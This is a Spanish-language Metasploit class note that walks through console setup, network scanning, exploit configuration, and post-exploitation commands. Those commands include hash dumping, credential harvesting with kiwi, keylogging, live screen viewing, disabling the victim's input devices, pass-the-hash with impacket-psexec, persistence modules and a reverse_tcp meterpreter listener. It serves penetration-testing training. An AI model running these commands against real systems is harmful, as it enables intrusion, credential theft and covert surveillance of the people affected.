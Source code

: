 # Metasploit 

Tags: #Comandos #Metasploit #Payloads #Msfvenom #PassTheHash #Psexec

**Metasploit** es una plataforma de pruebas de penetración (Penetration Testing Framework) que se utiliza para realizar pruebas de seguridad en sistemas y aplicaciones. Esta plataforma es ampliamente utilizada por investigadores de seguridad, pentesters y profesionales de la seguridad para descubrir vulnerabilidades y realizar pruebas de explotación de vulnerabilidades. Metasploit se basa en un conjunto de herramientas de seguridad que incluyen un framework de desarrollo de exploits, un motor de base de datos de vulnerabilidades y una colección de módulos de explotación de vulnerabilidades.

En términos prácticos, Metasploit se utiliza para probar la seguridad de un sistema o aplicación mediante la realización de pruebas de penetración, con el objetivo de identificar y explotar vulnerabilidades de seguridad. Para hacer esto, Metasploit proporciona una gran cantidad de exploits, payloads y módulos de post-explotación, que pueden ser utilizados por los profesionales de seguridad para identificar vulnerabilidades y explotarlas. Al utilizar Metasploit, los profesionales de la seguridad pueden simular ataques reales y descubrir vulnerabilidades en sistemas y aplicaciones antes de que los atacantes malintencionados puedan hacerlo, lo que les permite corregir las vulnerabilidades y mejorar la seguridad de sus sistemas.

En esta clase, veremos cómo utilizar algunas de las funcionalidades de esta herramienta.


## Metasploit 

Verificar la DB del Metasploit y después entrar (Cuando se ejecuta por primera vez)
```bash 
❯ msfdb run
```

Ejecutar Metasploit
```bash 
❯ msfconsole -q              # q = Quitar el banner de inicio
```

Gestionar de forma mas organizada la información que vayamos recopilando. 
```bash 
❯ workspace             # Miramos los espacios de trabajo 
❯ workspace -a omar     # Creamos nuestro espacio de trabajo con el nombre 'omar'
❯ workspace default     # Cambiamos al espacio de trabajo llamado 'default', asi podemos ir cambiando de espacios de trabajo
```

```bash
❯ search ❮exploit❯                 # Buscamos el exploit
		# Modulos: 'Auxiliary, Exploits, Post, Payload'
		# Tipo de Accion: 'Dos, Fuzzers, Scanner, Gather'

❯ search platform:"windows"        # Buscar por el SO Windows  
❯ search platform:"linux"          # Buscar por el SO Linux 

❯ search platform:"windows" type:"exploit"       # Buscar exploits en Windows
❯ search platform:"windows" type:"encoder"       # Buscar encoder en Windows
```

Aplicas un reconocimiento en la red local con ARP 
```bash 
❯ use auxiliary/scanner/discovery/arp_sweep      # Para usar el exploit
❯ options                                        # Miramos las opciones del exploit y ver lo que es necesario cargar para hacer el barrido en la subred
❯ info 'o' info -d                               # Nos da una breve descripcion de lo que hace el exploit
❯ set RHOSTS 192.168.68.0/24                     # Colocamos la subred en donde queremos hacer el barrido del ARP
❯ run
❯ hosts                                          # Nos muestra los hosts que ha descubierto en el reconocimiento
❯ services                                       # Nos muestra los servicios, pero para que sea mas efectivo, debemos de pasarle el archivo XML de Nmap
```

En Metasploit puedes importar archivos XML, el cual puedes obtener del escaneo con Nmap. 
```bash 
❯ db_import /home/omar/Documents/allports        # Importas a Metasploit un archivo XML llamado 'allPorts' colocando su ruta absoluta
```

```bash 
❯ use ❮Number or path❯       # Colocamos el numero del exploit que vamos a usar
❯ options                    # Miramos las opciones del exploit y lo que debemos de configurar
❯ show advanced options      # Miramos las opciones avanzadas del exploit y lo que debemos de configurar
❯ check                      # Nos dice si el RHOST es vulnerable a ese exploit sin explotarlo, esto depende del modulo, si trae esta opcion o no
❯ set LHOST ❮IP❯             # Configuramos el IP local eth0, ens33 (Si estamos en una VPN colocar el Tun0)
❯ set RHOSTS ❮IP❯            # Configuramos el IP remoto (maquina victima)
❯ set RPORT ❮Port❯           # Configuramos el puerto remoto (maquina victima)
❯ set LPORT ❮Port❯           # Configuramos el puerto local
❯ show targets               # Miras los targets disponibles (Diferentes versiones de Windows)
❯ set target ❮Number❯        # Seleccionamos el numero de target a usar
❯ show payloads              # Miramos los payload disponibles
❯ set payload ❮Path❯         # Colocamos la ruta del Payload a usar
❯ run                        # Ejecutamos el exploit  
```

Dentro de la maquina podemos hacer algunos comandos específicos
```bash 
❯ shell                      # Nos carga una shell
❯ load powershell            # Cargamos el modulo powershell
❯ powershell_shell           # Nos carga una powershell 
❯ getuid                     # Nos muestra el nombre del servidor o usuario en Windows  
❯ sysinfo                    # Nos muestra algunos detalles del servidor, arquitectura, SO, etc...
❯ ps                         # Mirar los procesos existentes
❯ hashdump                   # Para dumpear los hashes del sistema, crackearlos y hacer pass-the-hash
❯ load kiwi                  # Cargamos el modulo kiwi para poder usar 'creds_all'
❯ creds_all                  # Recopila informacion de credenciales de todo tipo
```

Usar Psexec
```bash 
❯ impacket-psexec WORKGROUP/omar@<IP Victima> -hashes :3ebi487y598ongyn98g56yng389yr6d6u  # Podemos hacer pass the hash y ser nt authority\system
❯ impacket-psexec WORKGROUP/omar:<Password>@<IP Victima>                                  # Podemos usar la passwd para entrar y ser nt authority\system
```

Comandos de Metasploit dentro de la maquina victima.
```bash 
❯ help                       # Miramos el panel de ayuda
❯ screenshot                 # Captura de pantalla del equipo
❯ load espia                 # Cargamos el modulo 'espia' y asi poder usar el 'screengrab, screenshare'
❯ screenshare                # Mirar el escritorio del usuario remoto en tiempo real 
❯ uictl disable <mouse>      # Podemos desabilitar (disable, enable) algunos componentes de interface de la maquina victima como: mouse, keyboard, all 
❯ keyscan_start              # Sniffer de pulsaciones del teclado
❯ keyscan_dump               # Nos muestra lo que capturo por el teclado con el comando anterior
❯ keyscan_stop               # Para el sniffer de pulsaciones del teclado
❯ background                 # Ponemos la sesion en segundo plano 
❯ sessions                   # Miramos las sesiones activas en segundo plano 
❯ sessions <id>              # Migras a alguna sesion que tenemos en segundo plano
```

Persistencia = Ganar acceso a la maquina victima cada cierto tiempo por si se pierde una conexión 
```bash 
❯ search persistence                                     # Miramos todos los modulos de persistencia
❯ search persistence platform:"windows"                  # Miramos los modulos de persistencia para Windows

❯ use exploit/windows/local/persistence_service          # Usamos un modulo de persistencia
❯ show options                                           # Este modulo nos pide una sesion ya establecida con la maquina victima
❯ set SESSION <id session>                               # Colocamos el id de la sesion que ya tenemos establecida anteriormente
❯ run 
```

Configuración del 'Listener' para las sesiones de persistencia 
```bash 
❯ use exploit/multi/handler                              # Usaremos el exploit
❯ show options 
❯ set payload windows/meterpreter/reverse_tcp            # Configuramos un payload dedicado a Windows 
❯ set LHOST <IP Atacante>                                # Configuramos nuestra IP
❯ run
```


Los dos tipos de payloads utilizados en ataques informáticos: **Staged** y **Non-Staged**.

-   **Payload Staged**: Es un tipo de payload que se **divide en dos** **o más etapas**. La primera etapa es una pequeña parte del código que se envía al objetivo, cuyo propósito es establecer una conexión segura entre el atacante y la máquina objetivo. Una vez que se establece la conexión, el atacante envía la segunda etapa del payload, que es la carga útil real del ataque. Este enfoque permite a los atacantes sortear medidas de seguridad adicionales, ya que la carga útil real no se envía hasta que se establece una conexión segura.
-   **Payload Non-Staged**: Es un tipo de payload que se envía como **una sola entidad** y **no se divide en múltiples etapas**. La carga útil completa se envía al objetivo en un solo paquete y se ejecuta inmediatamente después de ser recibida. Este enfoque es más simple que el Payload Staged, pero también es más fácil de detectar por los sistemas de seguridad, ya que se envía todo el código malicioso de una sola vez.

Es importante tener en cuenta que el tipo de payload utilizado en un ataque dependerá del objetivo y de las medidas de seguridad implementadas. En general, los payloads Staged son más difíciles de detectar y son preferidos por los atacantes, mientras que los payloads Non-Staged son más fáciles de implementar pero también son más fáciles de detectar.

Tipos de Payloads
```bash
Non-Stage               # Sends exploit shellcode all at once. Larger in size ando won't always work -> **windows/meterpreter_reverse_tcp**
Staged                  # Sends payload in stages. Can be less stable -> **windows/meterpreter/reverse_tcp**
```

